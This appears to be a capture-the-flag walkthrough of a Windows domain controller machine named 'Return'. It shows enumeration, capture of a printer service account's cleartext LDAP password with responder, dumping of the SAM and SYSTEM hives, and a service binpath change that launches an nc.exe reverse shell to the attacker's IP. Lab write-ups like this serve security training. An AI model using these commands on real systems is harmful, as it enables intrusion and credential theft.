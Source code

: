 # Return

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.241 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 02:24 EDT
Nmap scan report for 10.129.95.241
Host is up (0.0073s latency).
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49681/tcp open  unknown
49698/tcp open  unknown
```

### SMB Enum

`enum4linux` returned nothong of interest with both null and guest credentials.&#x20;

### LDAP

`ldapsearch` returns nothing because we have no credentials.

### HTTP --> Printer Creds

There is a HTTP port open, and when viewed, it shows a Printer Admin Panel:

<figure><img src="../../../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

When we view the settings, this is what we see:

<figure><img src="../../../.gitbook/assets/image (31) (7).png" alt=""><figcaption></figcaption></figure>

This looks poisanable since we can control the server address. As such, I started `responder`.&#x20;

```bash
$ sudo responder -I tun0
LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

We now have some credentials. We can use these to login with `evil-winrm`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### SeBackupPrivilege Fail

When we check our privileges, we see that we have a lot:

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

With this, we can save the `system` and `sam` files, then dump the hashes with `secretsdump.py`.&#x20;

```
reg save hklm\sam c:\users\svc-printer\sam
reg save hklm\system c:\users\svc-printer\system
download sam
download system
```

Afterwards, we can dump hashes:

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

However, when trying to pass the hash, it seems that this doesn't work.

### Services Exploit

When we check which groups we are part of in the machine, we see that `svc-printer` is part of Server Operators.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

We can also check the services running with `services`.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc 
```

Since we have privileges over some of the services, we can follow this article online to execute a reverse shell via `nc.exe` as `SYSTEM`.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}

However, it seems that although we have privileges over these services, we cannot restart them for some reason. So we need to find a service that is currently stopped, then change its configuration and start it.&#x20;

Again, we fail in this aspect because we don't have access to the Service Control Manager to view what we can control. So in this case, I used a writeup and saw that they used the VSS service to do the exploit.&#x20;

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe query VSS

SERVICE_NAME: VSS
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

I wasn't too sure how they got to using this. Anyways, we can configure it like so:

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VSS binpath="C:\Windows\system32\cmd.exe /c C:\users\svc-printer\documents\nc.exe -e cmd.exe 10.10.14.13 4444"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VSS
```

This would create a reverse shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (42) (8).png" alt=""><figcaption></figcaption></figure>
